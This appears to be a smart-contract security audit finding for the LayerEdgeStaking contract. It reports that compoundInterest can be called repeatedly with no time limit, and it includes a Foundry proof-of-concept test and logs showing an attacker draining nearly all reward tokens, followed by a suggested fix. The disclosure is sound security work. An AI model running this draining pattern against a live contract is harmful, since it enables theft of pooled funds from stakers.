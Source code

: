 Narrow Laurel Nightingale

High

# High-frequency compoundInterest transactions allow unfair accumulation of reward tokens

### Summary

The compoundInterest function in LayerEdgeStaking.sol lacks a time-based restriction mechanism, allowing it to be called repeatedly in rapid succession without any enforced delay between calls. Ideally, such functions should have a minimum interval—such as six months or one year—before allowing another invocation to ensure fair and sustainable reward distribution. Without this protection, malicious users can exploit the system by triggering compoundInterest across multiple transactions within seconds, leading to an unfair accumulation of reward tokens and potential depletion of the reward pool.

### Root Cause

The root cause of this issue lies in the compoundInterest function, as seen [here](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L213). This function does not implement any minimum time restriction between consecutive calls. As a result, an attacker can repeatedly invoke compoundInterest in separate transactions with different timestamps, potentially every second. This behavior allows the attacker to accumulate a disproportionately large amount of rewards in a very short period, undermining the intended fairness and sustainability of the reward distribution mechanism.

### Internal Pre-conditions

1. The admin must set compoundingEnabled to true to activate the compound interest feature.
2. The admin must deposit the reward tokens into the contract.

These steps are expected to be performed by the admin, as they are explicitly defined in the setUp function within the Foundry test code.

```js
    function setUp() public {
        deployer = new DeployLayerEdgeStaking();
        (staking, helperConfig) = deployer.run();

        NetworkConfig memory config = helperConfig.getActiveNetworkConfig();

        token = LayerEdgeToken(config.stakingToken);
        admin = config.owner;
        vm.startPrank(admin);

        // Distribute tokens to users
        uint256 userAmount = 100_000 * 1e18; // 100k tokens per test user
        token.transfer(alice, userAmount);
        token.transfer(bob, userAmount);
        token.transfer(charlie, userAmount);
        token.transfer(david, userAmount);
        token.transfer(eve, userAmount);
        token.transfer(frank, userAmount);
        token.transfer(grace, userAmount);
        token.transfer(harry, userAmount);
        token.transfer(ian, userAmount);
        token.transfer(judy, userAmount);

        // Fund staking contract with reward tokens
        uint256 rewardAmount = 100_000 * 1e18; // 100k tokens for rewards
        token.approve(address(staking), rewardAmount);
        staking.depositRewards(rewardAmount);
        staking.setCompoundingStatus(true);
        staking.setMinStakeAmount(MIN_STAKE);
        vm.stopPrank();
    }
```

### External Pre-conditions

-

### Attack Path

1. The attacker immediately stakes 3,000 Ether worth of staking tokens into the staking contract, placing them in Tier 1 due to the high APY from first come first serve model.
2. The attacker repeatedly calls the compoundInterest function in separate transactions every second, potentially using automation tools such as a Bash script or task scheduler, performing up to 21,119 calls.
3. After compounding is complete, the attacker initiates the unstaking process, waits the required 7-day cooldown period, and then finalizes the unstake.
4. The attacker withdraws the significantly increased rewards, resulting in a substantial profit.

### Impact

High – An attacker can steal nearly all of the reward tokens.

### PoC

add this test into LayerEdgeStakingTest.t.sol

```js
    function test_stealViaCompoundInterest() public {
        address attacker = address(0x42);
        deal(address(token), attacker, 3000 ether);


        uint256 totalRewards = staking.rewardsReserve();
        uint256 balanceAttackerBefore = token.balanceOf(attacker);

        console2.log("balance of attacker before exploit: %d", balanceAttackerBefore);

        vm.startPrank(attacker);
        token.approve(address(staking), MIN_STAKE);
        staking.stake(MIN_STAKE);
        vm.stopPrank();

        uint256 timestamp = block.timestamp;


        for(uint256 i = 1; i < 21120; i++) {
            skip(timestamp + i);
            vm.prank(attacker);
            staking.compoundInterest();
        }

        (uint256 balance,,,) = staking.getUserInfo(attacker);

        vm.prank(attacker);
        staking.unstake(balance);

        timestamp = block.timestamp;
        skip(timestamp + 7 days);
        
        vm.prank(attacker);
        staking.completeUnstake(0);

        uint256 balanceAttackerAfter = token.balanceOf(attacker);

        console2.log("balance of attacker after exploit: %d",balanceAttackerAfter);

        uint256 profit = balanceAttackerAfter - balanceAttackerBefore;

        uint256 percentageProfitWithTwoDecimal = profit * 10000 / totalRewards;

        console2.log("attakcer can steal %d.%d% of the rewards via repeatedly call compoundInterest with separate transaction (best case for attacker is every 1 seconds in timestamp)", percentageProfitWithTwoDecimal / 100, percentageProfitWithTwoDecimal % 100);
        console2.log("attacker can steal the reward only in one day");
    }
```

run `forge test --mt test_stealViaCompoundInterest -vvv`

here's the result

```bash
Ran 1 test for test/stake/LayerEdgeStakingTest.t.sol:LayerEdgeStakingTest
[PASS] test_stealViaCompoundInterest() (gas: 770514603)
Logs:
  balance of attacker before exploit: 3000000000000000000000
  balance of attacker after exploit: 102972102997640236403205
  attakcer can steal 99.97% of the rewards via repeatedly call compoundInterest with separate transaction (best case for attacker is every 1 seconds in timestamp)
  attacker can steal the reward only in one day

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.48s (4.46s CPU time)

Ran 1 test suite in 4.59s (4.48s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Mitigation

Implement a minimum time restriction per user between consecutive calls to the compoundInterest function, such as allowing each user to call it only once every six months or one year. This will prevent attackers from repeatedly invoking the function in rapid succession and unfairly accumulating excessive rewards.